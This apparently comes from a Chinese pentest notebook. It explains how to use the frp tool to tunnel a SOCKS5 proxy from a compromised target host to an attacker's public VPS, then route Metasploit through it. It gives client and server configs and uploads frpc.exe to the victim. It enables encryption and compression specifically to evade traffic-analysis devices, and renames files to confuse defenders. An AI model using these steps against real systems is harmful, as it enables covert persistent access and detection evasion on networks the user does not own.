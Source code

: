 	https://github.com/fatedier/frp/releases/
	使用条件:目标主机通外网，拥有自己的公网ip
	对攻击机外网服务端frps.ini进行配置
	[common]
	bind_port=8080
	靶机客户端
	[common]
	server_addr=服务器端外网IP
	server_port=8080
	[socks5]
	type=tcp
	remote_port=12345
	plugin=socks5
	use_encryption=true
	use_compression=true
	以上是启用加密和压缩，能躲避流量分析设备。
	上传frpc.exe和frpc.ini到目标服务器上,直接运行frpc.exe（在实战中可能会提示找不到配置文件，需要使用-c参数指定配置文件的路径frpc.exe -c 文件路径），可以修改文件名和配置名以混淆视听。
	公网vps主机上运行./frps –c frps.ini
	靶机执行./frpc –c frpc.ini
![image](/assets/Pentest_Note/master/img/347.png)

	MSF中设置全局变量
	>setg proxies 公网IP:12345
	>setg ReverseAllowProxy true 运行反向代理
![image](/assets/Pentest_Note/master/img/348.png)
![image](/assets/Pentest_Note/master/img/349.png)

	结束攻击
	tasklist 
	taskkill /pid 进程号 -t –f
